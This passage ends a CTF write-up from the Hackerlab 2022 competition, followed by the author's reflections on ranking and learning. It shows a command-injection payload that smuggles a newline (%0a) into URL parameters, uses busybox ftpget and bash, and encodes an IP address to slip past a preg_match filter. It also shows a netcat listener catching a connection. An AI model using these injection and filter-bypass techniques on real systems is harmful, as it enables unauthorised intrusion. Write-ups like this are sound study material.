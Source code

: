 ```
[7]-  Fini                    user_inputs[3]=ftpget
[8]+  Fini                    user_inputs[4]=51383781

└──╼ $?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=bash&user_inputs[3]=1337
[7] 8912
bash: ?user_inputs[0]=e : commande introuvable
[8] 8913
[9] 8914
[5]   Fini                    user_inputs[1]=a%0a
[6]   Fini                    user_inputs[2]=busybox
[7]   Termine 127             ?user_inputs[0]=e
[8]-  Fini                    user_inputs[1]=a%0a
[9]+  Fini                    user_inputs[2]=bash
```
In the paylaod `...[4]=51383781...` Is the target IP without the dots (avoid preg_match)


Before running the last command I had my listenner up

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35042
SSH-2.0-ssh2js1.4.0
```
I got a connection but It didnt live. I might update this later but seems it's the last step

You just get the flag after this one


## END OF THE LINE!

{{< image src="/hackerlab2022/scores.png" alt="my-scores" position="center" style="width: 300px;" >}}


That was an awesome experience, even though I joined late, I had alot of fun and most importantly learnt alot!

I could see there are alot of talented hackers out there, even just in my country

[Those Guys](https://github.com/TargetRoot/CTF/tree/main/Hackerlab2k22) were awesome. They almost made it to finals while I was 75th on a total of 220 participating teams (not good not terrible)

So I know there is still alot for me to learn, and that's what I am gonna do

keep learning folks!
